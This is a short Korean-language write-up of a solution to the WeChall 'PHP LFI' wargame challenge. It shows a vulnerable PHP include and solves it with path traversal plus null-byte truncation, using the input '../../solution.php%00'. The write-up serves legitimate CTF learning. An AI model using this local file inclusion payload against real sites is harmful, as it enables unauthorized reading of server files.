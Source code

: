 ```yaml
---
title : "Wechall - PHP LFI"
categories : [Wargame, Wechall]
tags: [LFI]
---
```


## LFI
<hr style="border-top: 1px solid;"><br>

```php
$filename = 'pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome").'.html';
include $filename;
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>


solution.php에 들어가야 함. solution.php의 경로는 ```/challenge/training/php/lfi/solution.php```

현재 경로는 ```/challenge/training/php/lfi/up/index.php```

우선 include 뒤에 확장자로 .html이 붙는데 이 부분은 null byte를 입력함으로써 무시할 수 있음.
: null byte는 url encode 값으로 ```%00```임.

입력을 ```../%00```을 해주면 다음과 같은 에러가 뜸.

<br>

```php
include(/home/wechall/www/wc5/www/challenge/training/php/lfi/up)
: failed to open stream
```

<br>

입력을 ```../../%00``` 을 해주면 에러로 뜬 경로가 ```/challenge/training/php/lfi/``` 로 바뀜.

따라서 ```../../solution.php%00``` 을 입력하면 성공.

<br><br>
<hr style="border: 2px solid;">
<br><br>
